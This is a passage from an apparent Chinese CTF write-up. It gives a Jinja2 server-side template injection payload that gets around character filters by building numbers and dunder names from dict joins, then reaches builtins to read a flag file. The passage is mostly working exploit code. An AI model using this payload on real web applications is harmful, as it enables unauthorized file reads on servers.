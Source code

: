 [![在这里插入图片描述](assets/1698900310-19b6a469b7cf5440880ddf2f0475efbc.png)](https://storage.tttang.com/media/attachment/2022/08/14/b3d6a8cd-6158-4e3e-8f2d-c1a7f6f73012.png)  
这里的话就可以利用上关姿势，然后我们构造出数字来进行替换即可

```bash
{%set e=dict (aaaaaaaaaaaa=a,bbbbbbbbbbbb=b)|join|count%}
{% set a=(()|select|string|list).pop(e)%}
{%set ee=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set eee=dict(aaaaaaaaaaaaaeeeeeeaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set eeee=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set eeeee=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set eeeeee=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set flag=chr(ee)%2bchr(eeee)%2bchr(eeeeee)%2bchr(eee)%2bchr(eeeee)%}
{%print(x.open(flag).read())%}
```

